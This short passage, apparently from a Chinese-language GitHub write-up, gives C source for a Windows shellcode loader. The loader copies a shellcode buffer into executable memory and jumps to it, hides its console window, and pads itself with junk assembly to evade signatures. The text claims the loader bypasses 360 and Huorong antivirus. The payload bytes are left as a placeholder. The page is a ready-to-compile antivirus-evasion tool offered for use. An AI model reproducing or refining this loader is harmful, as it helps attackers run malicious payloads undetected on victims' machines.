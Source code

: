 编译运行
```
#include <stdio.h>
#include <string.h>
#include <Windows.h>

#define fucku __asm{mov eax,eax}

#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口

int main(void) {

	typedef int(*pfunc)(void);
	unsigned char buf[] = { 0x90, 0xfc, 0x90, 0xe8, python_code_here };
	fucku;
	BYTE* sc = (BYTE*)VirtualAlloc(NULL, sizeof(buf) + 1, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	fucku;
	fucku;
	//memcpy(sc,buf,sizeof(buf));
	for (int i = 0; i<sizeof(buf); i++) {
		fucku;
		sc[i] = buf[i];
	}
	pfunc shellcode = (pfunc)sc;
	__asm {
		push shellcode
		ret
	}
	//HANDLE lpThread=CreateThread(NULL,NULL,(LPTHREAD_START_ROUTINE)shellcode,NULL,0,NULL);
	//WaitForSingleObject(lpThread,-1);
}
```
360和火绒均能免杀

![aa9080b201c4f59b7562ddc8303fe62d](images/2020.03-bypass-03/36.png)

